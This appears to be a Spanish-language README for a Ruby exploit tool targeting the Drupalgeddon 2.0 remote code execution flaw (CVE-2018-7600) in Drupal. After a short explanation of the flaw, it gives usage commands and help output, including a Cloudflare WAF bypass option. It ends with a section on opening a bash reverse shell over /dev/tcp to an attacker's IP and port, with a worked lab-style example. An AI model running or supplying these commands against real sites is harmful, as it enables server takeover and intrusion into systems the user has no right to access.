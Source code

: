 # Drupalgeddon 2.0 (CVE-2018–7600)

## ¿Qué es Drupalggeddon 2.0?

Se conoce como `Drupalgeddon 2.0` o `CVE-2018–7600` a una vulnerabilidad catalogada como altamente crítica que afecta a todas las versiones
de las ramas 6, 7 y 8 del gestor de contenidos `Drupal` y permite la ejecución de código remoto en el servidor que lo aloja.

Ya en 2014 se dio el primer Drupalgeddon, de ahí el 2.0. Es especialmente grave porque afecta a todas las versiones actuales de Drupal y su publicación se
hizo antes del parche que lo corrigiera, algo que normalmente no suele ocurrir. De hecho, inicialmente se publicó un parche que ha resultado no ser suficiente
y ha tenido que volver a ser parcheado. En palabras del propio grupo de seguridad de Drupal, el alcance es de más de un millón de sitios web 
vulnerables, y supone el 9% del total de páginas web conocidas que usan un CMS.

## ¿Cómo actua Drupalgeddon 2.0?

La causa principal de esta vulnerabilidad está relacionada con el sistema de representación de temas de Drupal. Para crear todos los elementos de la interfaz
de usuario, Drupal utiliza `Form API`, una poderosa herramienta que permite a los desarrolladores crear formularios y manejar los envíos de formularios de 
forma rápida y sencilla. Para lograr esto, la API utiliza una matriz asociativa jerárquica `Render Array` que contiene los datos que se renderizarán, así como 
algunas propiedades que establecen cómo se deben renderizar los datos.

* Para más información tecnica sobre su funcionamiento: <a href="https://michaelkoczwara.medium.com/drupalgeddon-2-b16c3095ae18" style="text-decoration:none">Link</a>


# Funciones Básicas:

Para ejecutar el exploit:

    ./drupalgeddon.rb [Dirección Web]
 
`Ejemplos:`

    ./drupalgeddon.rb http://ejemplo.com/

    ./drupalgeddon.rb http://10.10.10.10/

Podemos ver el panel de ayuda `-h` para ver las distintas opciones:

```
Usage example: ./drupalgeddon-customizable-beta.rb -u http://example.com/ -v 7 -c id  
More info: -h
   -u, --url URL               [Required] Service URL
   -v, --version VERSION       [Required] Target Drupal version {7,8}
   -c, --command COMMAND       [Required] Command to execute
   -m, --method PHP_METHOD     [Optional] PHP Method to use, by default: passthru
       --form                  [Optional] Form to attack, by default '/user/password' in Drupal 7 and '/user/register' in Drupal 8
       --cloudflare            [Optional] Tries to bypass Cloudflare using Lua-Nginx +100 parameters WAF Bypass
  -h, --help  

```

# Crear Shell Inversa Bash con Drupalgeddon2:

Para poder crear una reverse shell utilizando una `bash`, podemos especificar mediante `-c` el siguiente comando:

    ./drupalgeddon.rb [Dirección_Web_Víctima] -c "bash -c 'exec bash -i &>/dev/tcp/[Mi_IP]/[Mi_Puerto_De_Escucha] <&1'"

`Ejemplo:`
 
    ./drupalgeddon.rb http://10.10.10.59/ -c "bash -c 'exec bash -i &>/dev/tcp/10.10.14.26/4444 <&1'"    
